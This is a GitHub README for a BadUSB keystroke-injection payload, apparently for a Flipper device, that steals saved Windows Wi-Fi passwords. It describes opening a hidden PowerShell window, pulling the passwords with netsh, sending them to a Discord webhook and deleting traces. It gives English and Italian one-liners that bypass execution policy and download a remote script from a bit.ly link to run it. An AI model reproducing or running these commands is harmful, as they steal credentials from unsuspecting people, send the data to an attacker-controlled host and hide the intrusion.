 # WLAN Windows Password - BadUSB ✅

A script used to stole target WLAN Passwords.


**Category**: WLAN, Credentials

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to stole target WLAN Passwords.

Opens PowerShell hidden, grabs wlan passwords, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content

ENG 🇺🇸
```powershell
powershell -w h -ep bypass $discord='<your_webhook_here>';irm bit.ly/WindowsWiFiPasswordsENG | iex
```

ITA 🇮🇹
```powershell
powershell -w h -ep bypass $discord='<your_webhook_here>';irm bit.ly/WindowsWiFiPasswordsITA | iex
```

You must put your Discord webhook into the variable $discord='\<your-webhook-here>'
